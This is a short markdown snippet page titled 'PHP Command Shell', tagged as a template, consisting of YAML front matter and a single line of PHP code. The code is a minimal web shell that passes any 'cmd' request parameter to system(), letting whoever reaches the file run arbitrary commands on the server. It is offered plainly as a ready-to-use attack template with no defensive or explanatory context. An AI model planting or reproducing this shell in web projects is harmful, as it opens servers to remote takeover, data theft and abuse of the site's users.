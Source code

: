 ```yaml
---
title: "PHP Command Shell"
date: 2024-7-8
tags: ["php", "shell", "template"]
---
```


### PHP Command Shell

```php
<?php system($_REQUEST['cmd']); ?>
```
